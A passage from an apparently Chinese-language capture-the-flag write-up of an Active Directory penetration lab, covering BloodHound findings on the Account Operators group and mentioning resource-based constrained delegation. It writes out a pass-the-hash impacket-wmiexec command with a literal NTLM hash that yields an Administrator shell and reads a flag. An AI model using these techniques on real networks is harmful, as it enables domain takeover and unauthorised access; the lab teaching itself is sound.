 ```
WARNING: DCE/RPC connection failed: SMB SessionError: STATUS_TRUSTED_RELATIONSHIP_FAILURE(The logon request failed because the trust relationship between this workstation and the primary domain failed.)
INFO: Done in 00M 08S
INFO: Compressing output into 20230816233442_bloodhound.zip
```

zhangxin@xiaorang.lab 用户属于 [Account Operators](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#account-operators) 组的成员：
![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/f34d5c2e6e2a1410.png)

Account Operators 组向用户授予有限的帐户创建权限。此组的成员可以创建和修改大多数类型的帐户，包括用户帐户、本地组和全局组。 组成员可以本地登录到域控制器。
![graph.png](https://raw.githubusercontent.com/h0ny/repo/main/images/8d92a5997e7c10d6.png)

> 注：Account Operators 组的成员无法管理 Administrator 用户帐户、管理员的用户帐户或 Administrators、Server Operators、Account Operators、Backup Operators 或 Print Operators 组。

此时可以通过 rbcd 获取主机 PC1$ 的 SYSTEM 权限，获取 flag：

```
┌──(root㉿kali)-[~]
└─# proxychains4 -q impacket-wmiexec xiaorang.lab/Administrator@172.22.60.15 -hashes :c3cfdc08527ec4ab6aa3e630e79d349b -codec GBK -shell-type powershell
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
PS C:\> type C:\Users\Administrator\flag\flag02.txt
d88888b db       .d8b.  d8888b. db    db .88b  d88.
88'     88      d8' `8b 88  `8D 88    88 88'YbdP`88
88ooo   88      88ooo88 88oobY' 88    88 88  88  88
88~~~   88      88~~~88 88`8b   88    88 88  88  88
88      88booo. 88   88 88 `88. 88b  d88 88  88  88
YP      Y88888P YP   YP 88   YD ~Y8888P' YP  YP  YP

flag02: flag{286a43d1-0057-4d82-9eb0-31e4a39dcf4a}

PS C:\>

```

> 注：这里并没有使用 rbcd 去打 PC1 主机，而是在获取了域管权限后再回来查看的 flag。因为根据 bloodhound 的分析结果，无论是否获取到 PC1 主机的 SYSTEM 权限对后续的域渗透都没有影响。

## 第 3 关

关卡剧情：

请尝试获取内网中 Fileserver 主机的权限，并发现黑客留下的域控制器后门。

---
